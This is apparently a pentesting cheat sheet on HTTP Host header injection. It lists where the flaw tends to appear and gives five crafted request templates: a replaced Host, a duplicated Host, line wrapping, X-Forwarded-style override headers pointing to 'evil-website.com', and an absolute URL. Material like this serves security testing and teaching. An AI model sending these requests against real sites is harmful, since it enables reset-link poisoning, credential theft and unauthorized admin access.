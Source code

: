# Host Header Injection

## Introduction
HTTP Host header attacks exploit vulnerable websites that handle the value of the Host header in an unsafe way. If the server implicitly trusts the Host header, and fails to validate or escape it properly, an attacker may be able to use this input to inject harmful payloads that manipulate server-side behavior. Attacks that involve injecting a payload directly into the Host header are often known as "Host header injection" attacks.

## Where to find
* In the feature where the website can send email to us. For example forgot password / newsletter.
* when Host is reflected in Login page, toghether with cache poisoning, increase the possibility to steal password.
* Admin module accept access locally or with internal IP.

## How to exploit
#### Note: evil-website.com can be (localhost, Private IP, SSRF)
1. Change the host header
```
GET /index.php HTTP/1.1
Host: evil-website.com
...
```
2. Duplicating the host header
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...
```
3. Add line wrapping
```
GET /index.php HTTP/1.1
 Host: vulnerable-website.com
Host: evil-website.com
...
```
4. Add host override headers
```
X-Forwarded-For: evil-website.com
X-Forwarded-Host: evil-website.com
X-Forwarded-Server: evil-website.com
X-Client-IP: evil-website.com
X-Remote-IP: evil-website.com
X-Remote-Addr: evil-website.com
X-Host: evil-website.com
```
How to use? In this case im using "X-Forwarded-For : evil.com"
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For : evil-website.com
...
```
5. Supply an absolute URL
```
GET https://vulnerable-website.com/ HTTP/1.1
Host: evil-website.com
...
```

## References
* [PortSwigger](https://portswigger.net/web-security/host-header/exploiting)
